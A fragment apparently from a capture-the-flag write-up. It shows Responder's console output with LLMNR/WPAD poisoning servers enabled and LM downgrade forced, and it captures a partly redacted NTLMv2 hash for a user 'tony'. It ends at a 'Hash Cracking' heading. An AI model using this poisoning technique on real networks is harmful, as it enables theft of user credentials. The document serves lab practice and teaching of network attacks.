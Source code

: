 ```sh
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [ON]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [ON]
    Fingerprint hosts          [ON]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.14.192]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']

[+] Current Session Variables:
    Responder Machine Name     [WIN-QO2U5X54CZL]
    Responder Domain Name      [1P4E.LOCAL]
    Responder DCE-RPC Port     [45284]

[+] Listening for events...
[SMB] NTLMv2 Client   : 10.10.11.106
[SMB] NTLMv2 Username : DRIVER\tony
[SMB] NTLMv2 Hash     : tony::DRIVER:e4<HIDDEN>00
<SNIP>
[+] Exiting...
```

## Hash Cracking

